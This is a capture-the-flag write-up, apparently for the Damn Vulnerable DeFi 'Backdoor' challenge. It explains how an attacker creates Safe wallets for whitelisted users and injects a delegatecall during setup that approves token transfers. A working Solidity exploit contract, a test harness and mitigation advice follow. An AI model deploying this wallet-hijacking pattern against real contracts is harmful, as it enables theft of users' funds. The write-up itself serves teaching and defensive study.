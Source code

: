 ## An attacker can create a Safe wallet on behalf a whitelisted user and maliciously approve token transfers from it.

When `SafeProxyFactory.createProxyWithCallback` is called, it calls `createProxyWithNonce` which in turn calls `deployProxy` (all within the same contract).

`deployProxy` deploys a proxy that uses a singleton Safe contract for its logic. It then performs a low-level call to one of its functions using `initializer` param as data for the call. The `WalletRegistry` contract requires the function in the `initializer` data to be a call to the `Safe.setup` function.

In the setup function, we can pass `to` and `data` parameters, which will be used to execute a delegatecall. The attacker can pass the address of a malicious contract as the to parameter. This malicious contract can approve token transfers from the newly created Safe wallet. After the `WalletRegistry` sends the reward to the new Safe wallet, the maliciously approved address can then steal the funds.


### PoC
Attacker contract:
```solidity
contract Attacker {
    function approve(DamnValuableToken token, address receiver, uint256 amount) public {
        token.approve(receiver, amount);
    }
    
    function attack(
        address[] memory users,
        DamnValuableToken token,
        SafeProxyFactory walletFactory,
        Safe singletonCopy,
        WalletRegistry walletRegistry,
        address recovery
    ) public {
        // loop for each user
        for(uint8 i; i<users.length; i++) {
            // prepare setup params
            address[] memory _owners = new address[](1);
            _owners[0] = users[i];

            bytes memory initializer = abi.encodeWithSignature(
                'setup(address[],uint256,address,bytes,address,address,uint256,address)',
                _owners, 
                1, 
                // THE ATTACK IS HERE (next 2 lines)
                address(this), // call this contract
                abi.encodeWithSignature('approve(address,address,uint256)', token, address(this), 10e18), // ATTACK -> call to approve tokens on behalf the Safe
                address(0), 
                address(0),
                0,
                address(0) 
            );

            // create the wallet
            SafeProxy proxy = walletFactory.createProxyWithCallback(
                address(singletonCopy),
                initializer,
                0,
                walletRegistry
            );
            // Aboves function finish when the callback to Registry is executed AKA the new wallet already has the reward
            // So we just have to call transferFrom to recover the funds
            token.transferFrom(address(proxy), recovery, 10e18);
        }
    }
}
```
Then just deploy it on the test suite:
```solidity
    function test_backdoor() public 
    checkSolvedByPlayer 
    {
        Attacker attacker = new Attacker();

        attacker.attack(
            users,
            token,
            walletFactory,
            singletonCopy,
            walletRegistry,
            recovery
        );
    }
```

### Recommended?possible mitigations
- On the `proxyCreated` callback, add a conditional check to ensure that `tx.origin` is the same as the intended owner of the Safe wallet. This prevents anyone other than the owner from creating their own wallet.
- If the above solution isn't suitable, decode the entire `initializer` parameter and verify that the `to` parameter is address zero. This would prevent the execution of any malicious or unintended logic during the creation process.